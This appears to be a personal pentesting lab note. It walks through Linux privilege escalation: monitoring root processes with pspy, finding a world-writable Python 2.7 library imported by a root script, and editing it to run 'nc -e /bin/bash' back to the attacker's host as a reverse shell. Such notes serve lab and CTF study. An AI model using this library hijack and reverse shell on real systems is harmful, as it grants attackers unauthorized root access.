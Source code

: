 32 or 64?
```bash - target
uname -a
```
32 download
```bash - kali
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32
```
64 download
```bash - kali
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
```
transfer to Target
![[Python#Server]]
```bash - target
chmod +x pspy64
```
Run with timeout for graceful exit!
```bash - kali
timeout 1m ./pspy64
```
Look at the output, look for any UID=0, as this is the root user.  Look for any commands that are calling a file / script that we may have write privileges to.
![[Pasted image 20211229224921.png]]
```bash - kali
find / -writable -type d 2>/dev/null
```
`/srv/ftp`
`/usr/lib/python2.7`
```bash - kali
cat /opt/ftpclient/ftpclient.py
```
```
import ftplib
...
```
```bash - kali
cd /usr/lib/python2.7
```
```bash - kali
ls -lah ftplib.py
```
`-rwxrw-r-- ftplib.py`
```bash - kali
nano ftplib.py
```
![[1._rlwrap]]
```python - kali
os.system("nc -e /bin/bash $KALI 443")
```